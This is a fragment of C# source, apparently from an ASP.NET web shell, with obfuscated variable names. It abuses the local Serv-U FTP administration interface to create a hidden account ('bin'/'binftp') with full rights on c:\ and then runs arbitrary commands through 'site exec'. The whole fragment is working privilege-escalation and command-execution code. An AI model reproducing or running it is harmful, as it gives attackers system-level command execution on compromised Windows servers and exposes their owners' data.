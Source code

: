 string iVDT="-SETUSERSETUP\r\n-IP=0.0.0.0\r\n-PortNo=52521\r\n-User=bin\r\n-Password=binftp\r\n-HomeDir=c:\\\r\n-LoginMesFile=\r\n-Disable=0\r\n-RelPaths=1\r\n-NeedSecure=0\r\n-HideHidden=0\r\n-AlwaysAllowLogin=0\r\n-ChangePassword=0\r\n-QuotaEnable=0\r\n-MaxUsersLoginPerIP=-1\r\n-SpeedLimitUp=0\r\n-SpeedLimitDown=0\r\n-MaxNrUsers=-1\r\n-IdleTimeOut=600\r\n-SessionTimeOut=-1\r\n-Expire=0\r\n-RatioDown=1\r\n-RatiosCredit=0\r\n-QuotaCurrent=0\r\n-QuotaMaximum=0\r\n-Maintenance=System\r\n-PasswordType=Regular\r\n-Ratios=NoneRN\r\n Access=c:\\|RWAMELCDP\r\n";
string zexn="QUIT\r\n";
UHlA.Visible=true;
try
{
tcp.Connect("127.0.0.1",port);
tcp.ReceiveBufferSize=1024;
NS=tcp.GetStream();
Rev(NS);
ZJiM(NS,CRtK);
Rev(NS);
ZJiM(NS,jnNG);
Rev(NS);
ZJiM(NS,site);
Rev(NS);
ZJiM(NS,mtoJb);
Rev(NS);
ZJiM(NS,sutI);
Rev(NS);
ZJiM(NS,iVDT);
Rev(NS);
Bin_Td_Res.InnerHtml+="<font color=\"green\"><b>Exec Cmd.................\r\n</b></font>";
zvxm.Connect(Request.ServerVariables["LOCAL_ADDR"],52521);
NS1=zvxm.GetStream();
Rev(NS1);
ZJiM(NS1,"user bin\r\n");
Rev(NS1);
ZJiM(NS1,"pass binftp\r\n");
Rev(NS1);
ZJiM(NS1,"site exec "+cmd+"\r\n");
Rev(NS1);
ZJiM(NS1,"quit\r\n");
Rev(NS1);
zvxm.Close();
ZJiM(NS,mtoJb);
Rev(NS);
tcp.Close();
}
catch(Exception error)
{
xseuB(error.Message);
}
}
protected void Rev(NetworkStream instream)
{
string FTBtf=string.Empty;
if(instream.CanRead)
{
byte[] uPZ=new byte[1024];
do
{
System.Threading.Thread.Sleep(50);
int len=instream.Read(uPZ,0,uPZ.Length);
FTBtf+=Encoding.Default.GetString(uPZ,0,len);
}
while(instream.DataAvailable);
}
Bin_Td_Res.InnerHtml+="<font color=red>"+FTBtf.Replace("\0","")+"</font>";
}